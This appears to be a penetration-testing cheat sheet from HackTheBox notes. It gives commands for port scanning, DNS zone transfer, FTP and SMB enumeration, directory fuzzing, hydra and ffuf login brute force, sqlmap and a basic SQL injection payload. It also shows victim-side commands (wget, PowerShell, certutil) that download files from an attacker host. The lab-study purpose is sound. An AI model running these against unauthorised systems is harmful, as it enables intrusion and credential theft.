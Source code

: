 # Commands

- [Port Scanning](#ps)
- [21 - FTP Port](#ftp)
- [53 - DNS Port](#dns)
- [139/445 - Samba/SMB](#smb)
- [Directory Enumeration](#dir)
- [Login BruteForce](#log)
- [Sql Injection](#si)
- [Active Directory](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/Active%20Directory.md)
- [File Transfer](#ft)

### Port Scanning <a name='ps'></a>

#### Tools Required

- [Nmap](https://nmap.org/download.html)
- [Rustscan](https://github.com/RustScan/RustScan/wiki/Installation-Guide#%EF%B8%8F-debian--kali)

```bash
# port scanning with nmap
# full tcp port scan
nmap -p- --min-rate=1000 -vv -Pn <machine-ip>
# full udp port scan
nmap -p- -sU -vv -Pn <machine-ip>
nmap -p<enumerated-ports> -sC -sV -oN services.nmap <machine-ip>

# rustscan
# installation frorm above
rustscan -a <machine-ip>
nmap -p<enumerated-ports> -sC -sV -oN services.nmap <machine-ip>
```

### DNS Port <a name='dns'></a>

#### Tools Require

- [Dig](https://linuxhint.com/install_dig_debian_9/)

```bash
# reverse lookup
dig -x <machine-ip> @<machine-ip>

# zone transfer --> output: Subdomains
dns axfr domain.tld @<machine-ip>
```

### FTP Port <a name='ftp'></a>

#### Tools Required

- FTP

```bash
# anonymous login
ftp <machine-ip>
# username anonymous
# password anonymous

# downlaod files recursively without prompt
binary
prompt off
mget *
```

### Samba/SMB Port <a name='smb'></a>

#### Tools Required

- [Crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec/wiki/Installation)
- SmbClient

```bash
# check the access of the shares
# set user and password anonymous for anonymous checking
# set user and password for a valid user to enumerate shares as network user
crackmapexec smb <machine-ip> -u user -p password --shares

# access the share which you have permission to
smbclient //<machine-ip>/<share-name> -U user
# password
```

### Directory Enumeration <a name='dir'></a>

#### Tools Required

- [Gobuster](https://github.com/OJ/gobuster/releases/tag/v3.1.0)
- [DirSearch](https://github.com/maurosoria/dirsearch#Installation--Usage)
- [rustbuster](https://github.com/phra/rustbuster/releases)
- [ffuf](https://github.com/ffuf/ffuf)

```bash
# directory enumeration
# wordlist = raft-medium-directories.txt
## gobuster
gobuster dir -u http://<machine-ip> -w wordlist -x php,html -b 404 -t 50 -o gobuster.out
# rustbuster  
rustbuster dir -u http://<machine-ip> -w wordlist -e php -S 404,403 -o rustbuster.out
# dirsearch
python3 dirsearch.py -u http://<machine-ip> -w wordlist
# ffuf
ffuf -u http://<machine-ip>/FUZZ -w wordlist -fr 'not'

# subdomain enumeration
# wordlist = subdomains-top-11000.txt
## gobuster
gobuster vhost -w wordlist -u http://<machine-ip> -o gobuster-vhost.out
## ffuf 
ffuf -w wordlist -u http://<machine-ip>/ -H "Host: FUZZ.domain.tld" -mc 200
```

### Login Bruteforce <a name="log"></a>

#### Tools Required

- [ffuf](https://github.com/ffuf/ffuf)
- [Hydra](https://github.com/vanhauser-thc/thc-hydra#how-to-compile)

```bash
# wordlist = rockyou.txt
# ffuf
ffuf -u http://<machine-ip>/login-page.php -X POST -d '{"user":"FUZZ", "pass":"FUZZ"}' -w wordlist

# hydra
# loginpage: /squirrelmail/src/login.php
# payload sent during login: login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1 (provided username and password is replaced with ^USER^ & ^PASS^)
# error message: Unknown
hydra -l 'admin' -P wordlist <machine-ip> http-post-form '/{login-page}:{payload sent during login}:{error message}' -v
```

### SQLInjection <a name="si"></a>

#### Tools Required

- [SqlMap](https://sqlmap.org/)

```bash
# capture the login request with burp and save it as login.req
sqlmap -r login.req --level=5 --risk=3 --batch

# manual expoitation
> Capture the request with burp
> The entered paramaters will be url encoded, decode it with <ctrl>+<shift>+<u>
> Enter the payload " ' or 1 = 1 -- - " (simple sql injection payload)
> After changing the payload, url encode it with <ctrl>+<u>
```

### File Transfer <a name="ft"></a>

#### Tools Required

- [Python3](https://www.python.org/downloads/)
- [Impackets](https://github.com/SecureAuthCorp/impacket#installing)

```bash 
# between *nix os

# on the attacker machine
python3 -m http.server 8081

# on the victim machine
wget http://<attacker-ip>:<port>/<file>
curl http://<attacker-ip>:<port>/<file> -o <output-file>

#===========================================================#

# from linux to windows

# on the attacker machine
# creates a anonymous login
sudo smbserver.py <share-name> <linux-path> -smb2support

# on the victim machine
copy \\<attacker-ip>\<share-name>\<file> <copy-path-in-windows>
# mount the share in windows
net use x: \\<attacker-ip>\<share-name> /user:<user-name> <password>
copy x:\<file> <copy-path-in-windows>

# from external url
# sometimes fails
powershell -c (new-object System.Net.WebClient).DownloadFile('http://<attacker-ip>/<file>','<download-path-in-windows>')

# works mostly
#@alias
iwr -uri 'http://<attacker-ip>/<file>' -o '<download-path-in-windows>'
#@cmdlet
powershell.exe -command Invoke-WebRequest -Uri 'http://<attacker-ip>/<file>' -OutFile '<download-path-in-windows>'

# using certutil
certutil -urlcache -f 'http://<attacker-ip>/<file>' '<download-path-in-windows>'
```